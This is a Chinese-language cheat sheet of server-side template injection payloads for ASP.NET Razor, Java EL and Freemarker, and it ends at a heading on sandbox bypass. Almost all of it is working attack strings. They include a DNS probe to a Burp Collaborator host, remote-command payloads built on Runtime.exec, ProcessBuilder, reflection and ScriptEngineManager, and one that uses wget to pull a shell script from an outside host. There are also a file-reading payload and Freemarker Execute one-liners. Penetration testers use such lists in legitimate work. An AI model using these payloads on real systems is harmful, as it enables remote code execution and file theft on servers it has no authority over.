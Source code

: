 	SSTI 服务端模板注入
 #### ASP.NET Razor
  	@(1+2)
	命令执行
	@{
	  // C# code
	}
 #### EL
  	${1+1}
	#{1+1}
	不包括代码执行
	// DNS Lookup
	${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}

	// JVM 系统属性查找 (ex: java.class.path)
	${"".getClass().forName("java.lang.System").getDeclaredMethod("getProperty","".getClass()).invoke("","java.class.path")}
	代码执行
	RCE payloads
	''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
	''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

	使用Runtime
	#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
	#{session.getAttribute("rtc").setAccessible(true)}
	#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

	使用processbuilder
	${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
	${request.getAttribute("c").add("cmd.exe")}
	${request.getAttribute("c").add("/k")}
	${request.getAttribute("c").add("ping x.x.x.x")}
	${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
	${request.getAttribute("a")}

	使用Reflection & Invoke
	${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

	使用ScriptEngineManager one-liner
	${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

	使用ScriptEngineManager
	${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
 #### Freemarker
  	${3*3}
	#{3*3}
	读取文件
	${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
	将返回的字节转换为 ASCII
	代码执行
	<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
	[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
	${"freemarker.template.utility.Execute"?new()("id")}
	沙盒绕过-2.3.30 以下